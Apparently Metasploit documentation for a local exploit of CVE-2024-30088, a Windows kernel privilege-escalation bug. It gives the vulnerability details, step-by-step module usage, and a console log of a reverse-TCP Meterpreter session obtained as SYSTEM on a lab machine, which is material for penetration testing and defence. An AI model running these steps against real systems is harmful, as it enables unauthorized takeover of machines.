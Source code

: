 ## Vulnerable Application
CVE-2024-30088 is a Windows Kernel Elevation of Privilege Vulnerability which affects many recent versions of Windows 10,
Windows 11 and Windows Server 2022.

The vulnerability exists inside the function called `AuthzBasepCopyoutInternalSecurityAttributes` specifically when
the kernel copies the `_AUTHZBASEP_SECURITY_ATTRIBUTES_INFORMATION` of the current token object to user mode. When the
kernel preforms the copy of the `SecurityAttributesList`, it sets up the list of the SecurityAttribute's structure
directly to the user supplied pointed. It then calls `RtlCopyUnicodeString` and
`AuthzBasepCopyoutInternalSecurityAttributeValues` to copy out the names and values of the `SecurityAttribute` leading
to multiple Time Of Check Time Of Use (TOCTOU) vulnerabilities in the function.

### Setup

Windows 10 22H2 versions without the patch (before 10.0.19045.4529) are vulnerable out of the box.
This exploit module has been tested on Windows 10 version 22H2 build 19045.2965.

## Verification Steps

1. Start msfconsole
1. Get a user level session on an affected Windows machine
1. Do: `use windows/local/cve_2024_30038_authz_basep`
1. Set the `LHOST`, `LPORT`, and `SESSION` options
1. Run the module
1. Receive a session running in the context of the `NT AUTHORITY\SYSTEM` user.

## Scenarios
### Windows 10 (10.0 Build 19045.2965)
```
msf6 > use windows/local/cve_2024_30038_authz_basep
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2024_30038_authz_basep) > set session -1
session => -1
msf6 exploit(windows/local/cve_2024_30038_authz_basep) > exploit

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: Windows 10+ Build 19045
[*] Reflectively injecting the DLL into 9664...
[*] Attempting to steal the handle from the winlogon process...
[*] Sleeping for 2 seconds before attempting again
[+] Successfully stole winlogon handle: 1340
[+] Successfully retrieved winlogon pid: 736
[*] Creating the thread to execute in 0x16e4e500000 (pid=736)
[*] Sending stage (201798 bytes) to 172.16.199.130
[*] Meterpreter session 63 opened (172.16.199.1:4444 -> 172.16.199.130:49735) at 2024-08-21 22:56:13 -0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-FGNRA7E
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
